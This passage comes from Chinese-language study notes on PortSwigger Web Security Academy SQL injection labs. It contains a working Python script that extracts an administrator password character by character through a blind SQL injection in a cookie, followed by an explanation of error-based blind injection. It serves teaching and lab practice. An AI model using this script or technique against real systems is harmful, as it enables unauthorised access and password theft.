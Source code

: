     params = {
        'category': 'Pets',
    }

    payload_list = ''

    for i in range(ord('a'), ord('z') + 1):
        payload_list += chr(i)

    for i in range(ord('A'), ord('Z') + 1):
        payload_list += chr(i)

    for i in range(ord('0'), ord('9') + 1):
        payload_list += chr(i)

    ans = ''

    for i in range(1, 20 + 1):
        for j in payload_list:
            cookies['TrackingId'] = f"l0AntyMBnvwpU3eL' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), {i}, 1) = '{j}"
            
            response = requests.get(
                'https://0ad80007034af3b4815416d000260088.web-security-academy.net/filter',
                params=params,
                cookies=cookies,
                headers=headers,
                verify=False,
            )

            print(f"\rIndex = {i}, Payload = {j}   ", end='')

            if "Welcome back!" in response.text:
                ans += j
                print()
                print(ans)
                break

    print(f"Password: {ans}")
    ```
7. 取得密碼後登入通關
:::

#### 基於錯誤的 SQL 注入

基於錯誤的 SQL 注入是指您能夠使用錯誤訊息從資料庫中提取或推斷敏感資料的情況，即使在盲注語境中也是如此。可能性取決於資料庫的配置和您能夠觸發的錯誤類型：

* 您可能能夠根據布林表達式的結果誘使應用程式返回特定的錯誤回應。您可以用與我們在前一節中看到的條件回應相同的方式來利用這一點。更多資訊請參閱透過觸發條件錯誤來利用盲注 SQL 注入。
* 您可能能夠觸發輸出查詢語句返回資料的錯誤訊息。這有效地將原本盲注的 SQL 注入漏洞轉變為可見的。更多資訊請參閱透過詳細的 SQL 錯誤訊息提取敏感資料。

##### 透過觸發條件錯誤來利用盲注 SQL 注入

某些應用程式執行 SQL 查詢語句，但無論查詢語句是否返回任何資料，其行為都不會改變。前一節中的技術將無效，因為注入不同的布林條件對應用程式的回應沒有影響。

通常可以根據是否發生 SQL 錯誤來誘使應用程式返回不同的回應。您可以修改查詢語句，使其僅在條件為真時才導致資料庫錯誤。很多時候，資料庫拋出的未處理錯誤會導致應用程式回應中的某些差異，例如錯誤訊息。這使您能夠推斷注入條件的真假。

要了解其工作原理，假設依次發送了包含以下 `TrackingId` cookie 值的兩個請求：
